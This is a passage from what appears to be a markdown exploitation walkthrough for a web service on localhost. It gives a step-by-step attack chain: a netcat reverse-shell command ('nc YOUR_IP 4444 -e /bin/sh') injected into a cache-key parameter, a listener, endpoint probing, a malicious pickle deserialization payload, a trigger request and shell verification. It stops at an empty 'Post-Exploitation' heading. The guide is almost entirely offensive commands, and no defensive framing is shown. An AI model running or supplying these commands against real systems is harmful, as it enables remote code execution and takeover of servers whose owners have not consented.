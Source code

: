 ```bash
# Inject command into cache key
curl "http://localhost:8080/api/data?id=1; nc YOUR_IP 4444 -e /bin/sh"
```

## Step-by-Step Exploitation Guide

### Complete Attack Chain

1. **Start Listener**
```bash
# Terminal 1
nc -lvnp 4444
```

2. **Identify Injection Point**
```bash
# Test various endpoints for cache behavior
curl -v http://localhost:8080/upload -F "file=@test.txt"
curl -v http://localhost:8080/profile/test
curl -v "http://localhost:8080/api/search?q=test"
```

3. **Craft Payload**
```bash
# Based on the vulnerability found, craft appropriate payload
# Example for pickle deserialization:
python3 malicious_pickle.py > payload.txt
```

4. **Inject Payload**
```bash
# Inject via the vulnerable endpoint
curl -X POST http://localhost:8080/vulnerable-endpoint \
  -H "Content-Type: application/json" \
  -d '{"data": "YOUR_PAYLOAD"}'
```

5. **Trigger Execution**
```bash
# Access the cached data to trigger deserialization
curl http://localhost:8080/trigger-endpoint
```

6. **Verify Shell Access**
```bash
# In your listener terminal, you should now have a shell
# Try commands:
whoami
id
pwd
ls -la
```

## Post-Exploitation
